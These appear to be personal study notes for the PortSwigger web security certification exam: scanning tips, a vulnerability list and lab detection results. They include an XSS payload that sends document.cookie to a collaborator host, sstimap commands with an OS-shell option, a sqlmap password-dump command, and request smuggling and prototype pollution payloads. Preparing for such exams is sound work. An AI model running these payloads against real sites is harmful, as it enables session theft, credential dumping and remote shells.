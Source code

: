 ## Tips
### Keep in Mind
- [ ] Burp Scanner is the MOST POWERFUL WEAPON
- [ ] Run Smuggler on 1 App while testing on 2nd app
### If you STUCKED In the Exam
- [ ] HTTP Smuggle Full Scan
- [ ] Review JS & HTML
- [ ] Scan MAIN Page & Suspicious Points and pages
- [ ] Run Param Miner
- [ ] Test for Host Header Attacks MANUALLY
- [ ] Prototype Pollution Scanner **UP** [ Client & Server ]
- [ ] Run CL.0 Scan for every endpoint
- [ ] Run Content Discovery

### All Vulns
- SQL injection
- XSS
- CSRF
- Clickjacking
- DOM-based vulnerabilities
- CORS
- XXE
- SSRF
- smuggling
- OS command injection
- SSTI
- Path traversal
- Access control vulnerabilities
- Authentication
- WebSockets
- Web cache poisoning
- Insecure deserialization
- Information disclosure
- Business logic vulnerabilities
- Host header attacks
- OAuth authentication
- File upload
- JWT
- Prototype pollution
- GraphQL API vulnerabilities
- Race conditions
- NoSQL injection
### SQL Injection
- `SUBSTRING(string_expression, start_position, length)`
- Not all injections can be detected with ' or " or \` . Use Burp Scanner
  Lab: Blind [SQL injection](https://portswigger.net/web-security/sql-injection) with time delays: 
### XSS
- HTML Entities work fine inside events (converting character to html entity which reflected inside an event doesn't mean it is escaped)
- Fetch Function 
 ```fetch("https://BURP-COLLAB",{method:"POST",mode:"cors",body:document.cookie});```
### CSRF
- Setting the Cookie without SameSite restriction make the browser use Lax by default, and in this case the cookie could be sent in cross-site POST request in the first 120 seconds after setting the cookie.
  In this case you need to refresh(reset) the cookie before the exploit.
### SSTI
- Command for Detection & Exploitation
	```./sstimap.py -u https://www.example.net/?msg=test```
	-e : for selecting Template ex: ERB
	--os-shell : for opening an interactive shell
- Detect Command
	GET
		```./sstimap.py --url URL --method GET --cookie 'key=value' --header 'key: value' --level 5 --engine ENGINE --technique RT --os-shell  # RT:Rendered&Time-based```
	POST
		```./sstimap.py --url URL --method POST --data 'POST_BODY' --cookie 'key=value' --header 'key: value' --level 5 --engine ENGINE --technique RT --os-shell  # RT:Rendered&Time-based```

### Request Smuggling
- New lines After and Before the hex number of Chunked Transfer
	- Before
		- 0: 1 line (2 lines if it is in the body of the first request)
	 - After
		- 0: 2 lines
		- else: 1 
###### Identification: Burp Scanner vs HTTP Request Smuggling Extension
Note: Burp Scanner doesn't show if it is TE.CL or CL.TE
Lab ID is based on the sort of labs in the All Labs page on PortSwigger
Testing on 10 Oct 2023
Lab ID: is based on the sort of the labs in PortSwigger's All Labs page

| Lab ID | Scanner | Extension |
|--------|---------|-----------|
|1| ✅|✅(Smuggle Probe)|
|2| ✅|✅(Smuggle Probe)|
|3| ✅|✅(Smuggle Probe)|
|4| ✅|✅(Smuggle Probe)|
|5| ✅|✅(Smuggle Probe)|
|6| ✅|✅(Smuggle Probe)|
|7| ✅|✅(Smuggle Probe)|
|8| ❌|✅(HTTP/2 probe)|
|9| ❌|❌ (All Scans Response: H2.TE❌) - (Correct is H2.CL✅)|
|10| ❌|❌ (All Scans Response: H2.TE&Dual Path Support❌) - (Correct is H2 Injection via CRLF✅)|
|11| ❌|❌ (All Scans Response: Dual Path Support ONLY❌) - (Correct is H2 Req Splitting via CRLF✅)|
|12| ❌|✅**Needs testing on every endpoint** ⚠⚠|
|13| ✅|✅(Smuggle Probe)|
|14| ✅|✅(Smuggle Probe)|
|15| ✅|✅(Smuggle Probe)|

- TE.CL
	- Second Req must have those headers and with high content-length than what it have in the body
		```
		Content-Type: application/x-www-form-urlencoded
		Content-Length: 15
		
		x=99
		```
- H2.TE
	- Validate the Vulnerability
	```
	POST / HTTP/2
	Host: 0a6e000e04b173f0855f2b9f009a00da.web-security-academy.net
	Transfer-Encoding: chunked
	Content-Length: 13
	
	0
	
	SMUGGLED
	```
- CL.0
	- High probability it will be on POST Requests by default like login and adding a comment.
	- ==**Needs testing on every endpoint** ⚠⚠==
	- [Great Explaination](https://sc.scomurr.com/http-request-smuggling-admin-access-via-cl-0-vulnerability/)



### Web Cache Poisoning
- [ ] Web Cache Poisoning with **unkeyed query** string is not detectable by Burp Scanner
- [ ] Cache keys can be known by sending this header
      ```Pragma: x-get-cache-key``` Respond with the keys that is sent only not all keys

### Prototype Pollution
- Constructer Payload is not tested by the extension
	`"constructor": { "prototype": { "json spaces":10 } }`
### 3 Stages Vulns
| Vulns-Stages | 1 | 2 | 3 |
|--------------|---|---|---|
|GraphQL|✅|✅|❌|
|Prototype Pollution|✅|✅|✅|

### Sqlmap
```
sqlmap -u "URRRRRL" -D public -T users -C password --batch --technique=B -p organize_by --cookie "COOOOOOOKIS" --dump
```
